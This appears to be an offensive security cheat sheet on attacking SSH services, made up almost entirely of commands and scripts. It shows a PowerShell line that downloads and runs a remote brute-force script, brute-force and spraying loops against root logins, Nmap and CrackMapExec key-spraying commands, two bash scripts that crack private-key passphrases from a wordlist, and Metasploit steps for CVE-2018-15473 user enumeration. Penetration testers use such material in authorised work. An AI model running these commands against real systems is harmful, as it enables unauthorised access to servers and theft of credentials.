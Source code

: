 ```yaml
---
description: Secure Shell
---
```


# SSH

- [https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)




## Brute Force

- [https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer](https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer)

From Windows:

```
PS > curl https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -o plink.exe
PS > IEX(New-Object Net.WebClient).DownloadString("https://github.com/InfosecMatter/SSH-PuTTY-login-bruteforcer/raw/master/ssh-putty-brute.ps1")
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw 'Passw0rd!'
PS > ssh-putty-brute -h 192.168.1.11 -p 22 -u root -pw (gc .\passwords.txt)
```




## Password Spray / Key Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

A list of targets with different SSH ports:

```
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $1}' > ssh_hosts
$ das parse ssh -raw | cut -c 7- | awk -F: '{print $2}' > ssh_ports
$ paste ssh_hosts ssh_ports | while read host port; do cme ssh $host -u root -p root --port $port; done
```

Spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u root -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u root -i ~/.ssh/id_rsa -t ssh.txt
$ parallel --eta -j3 python3 sshspray.py -i {} -u root -t ssh.txt ">" output_{}.log  ::: id_rsa1 id_rsa2 id_rsa3
```

Using Nmap:

```
$ nmap -p 22 --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" 192.168.1.11
```




## Quicky Offline Private Key Crack

- [https://security.stackexchange.com/a/191122](https://security.stackexchange.com/a/191122)

{% tabs %}
{% tab title="PEM/OpenSSH" %}
{% code title="pem-crack.sh" %}
```bash
#!/usr/bin/env bash

echo "Wordlist    : $1"
echo "PEM key     : $2"
echo "New PEM key : $3"
cp "$2" "$3" && chmod 600 "$3"

while read -r line
do
    err=$( (ssh-keygen -p -P "$line" -N '' -f "$3") 2>&1 )

    if [[ ! $err = *"incorrect passphrase"* ]]; then
        echo "Passphrase  : $line"
        echo "$err"
        break
    fi
done < "$1"
```
{% endcode %}
{% endtab %}
{% tab title="PuTTY PPK" %}
{% code title="ppk-crack.sh" %}
```bash
#!/usr/bin/env bash
# sudo apt install putty-tools -y

echo "Wordlist    : $1"
echo "PEM key     : $2"
echo "New PEM key : $3"

touch /tmp/empty
while read -r line
do 
    echo "$line" > /tmp/w
    err=$( (puttygen "$2" -P -o "$3" --old-passphrase /tmp/w --new-passphrase /tmp/empty) 2>&1 )

    if [[ ! $err = *"wrong passphrase"* ]]; then
        echo "Passphrase  : $line"
        echo "$err"
        puttygen "$3" -O private-openssh -o "$3"
        break
    fi
done < $1

rm -f /tmp/w /tmp/empty
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
